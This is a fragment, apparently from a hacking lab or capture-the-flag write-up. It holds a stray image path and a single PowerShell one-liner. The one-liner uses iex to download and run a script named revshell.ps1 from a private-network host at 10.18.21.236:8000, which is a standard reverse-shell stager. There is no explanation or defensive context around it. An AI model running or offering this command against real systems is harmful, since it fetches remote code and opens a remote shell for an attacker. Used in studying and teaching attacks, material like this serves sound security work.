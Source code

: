 
`powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.18.21.236:8000/revshell.ps1')`

